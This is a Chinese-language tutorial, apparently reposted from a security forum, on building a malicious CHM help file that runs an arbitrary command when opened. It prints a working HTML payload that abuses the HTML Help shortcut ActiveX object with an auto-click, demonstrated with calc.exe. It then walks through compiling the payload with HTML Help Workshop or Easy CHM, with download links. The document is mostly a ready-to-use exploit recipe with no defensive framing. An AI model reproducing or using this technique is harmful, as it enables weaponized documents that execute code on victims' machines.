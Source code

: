 # 恶意chm文件生成

恶意chm文件生成，打开则执行任意命令。  
任选一个工具操作后，就可以生成chm文件。  

准备test.html  
```html
<html>

<head>
    <title>test</title>
</head>

<body>
    <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=",calc.exe">
        <PARAM name="Item2" value="273,1,1">
    </OBJECT>

    <SCRIPT>
        x.Click();
    </SCRIPT>
</body>

</html>
```

## 工具1-HTML Help Workshop
微软自己的`HTML Help Workshop`官方下载地址已经404了，可以参照这个链接在webarchive网站下载`HTML Help Workshop`：  
https://docs.microsoft.com/en-us/answers/questions/265752/htmlhelp-workshop-download-for-chm-compiler-instal.html  
1. http://web.archive.org/web/20160201063255/http://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/htmlhelp.exe  
2. http://web.archive.org/web/20160314043751/http://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/helpdocs.zip  

安装之后，打开 `HTML Help Workshop`，  
File->New->Project->Ok->下一步，输入项目名，可以选择路径  
下一步，勾选"HTML files (.htm)"，下一步  
Add，添加test.html，下一步->完成  
File->Compile... 或者 点击第3个图标，即可生成chm文件  


## 工具2-Easy chm
下载安装`Easy chm`，随便搜一个下载，装到虚拟机里。  
把test.html放在一个文件夹里  
运行Easy CHM，新建项目，打开准备好的文件夹，编译->生成CHM 即可生成chm文件  


## 演示
打开新生成的chm文件，计算器就会被打开。  


原链接: https://bbs.pediy.com/thread-267038.htm  


2021/10/18  
